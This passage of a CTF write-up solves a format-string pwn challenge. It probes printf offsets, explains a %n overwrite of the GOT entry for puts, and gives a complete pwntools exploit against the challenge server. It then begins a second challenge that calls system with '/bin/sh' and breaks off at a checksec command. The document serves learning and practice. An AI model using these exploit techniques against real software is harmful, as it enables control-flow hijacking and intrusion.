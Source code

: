 ![printf vulnerability](/assets/img/2025-05-11-blackbbery-ccoe-ctf-2025/got_printf.png)
_printf vulnerability_

The hex values for `%x ` start at offset 10.
```
Welcome to this GOTDamn 'leave a message' system
Enter your name: aaaa
Enter your message: %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Thank you
Mr/Ms aaaa
ffffd500 0 0 73 ffffffff 61616161 0 0 3e8 25207825 20782520 78252078 25207825 20782520
```

Finally, we use `%n` to use `printf` to overwrite the GOT entry for `puts`.
`puts` just happens to get called right after the `printf` in this program, so it will point to the address of `win` after the overwrite.

The exploit:
```python
from pwn import *

elf = ELF("./chall")
# p = elf.process()
p = remote("157.180.92.15", 56647)
context.binary = elf

p.sendlineafter(b"Enter your name: ", b"AAAA")
payload = fmtstr_payload(10, {elf.got['puts'] : elf.symbols.win})
p.sendlineafter(b"Enter your message: ", payload)

p.interactive()
``` 

Flag: bbctf{dontwealllovegot}

### THERE_SIR (Pwn)

> where does a pointer points to?
> 
> **Author: CapangJabba**

This is another ret2win challenge where the win function calls `system`.
The challenge involves writing "/bin/sh" to a writable memory section in the program to call `system` as we don't have a libc leak.

Binary protections:
```
(ctfvenv) benkyou@fedora:~/Dev/bbctf/there_sir$ checksec chall
```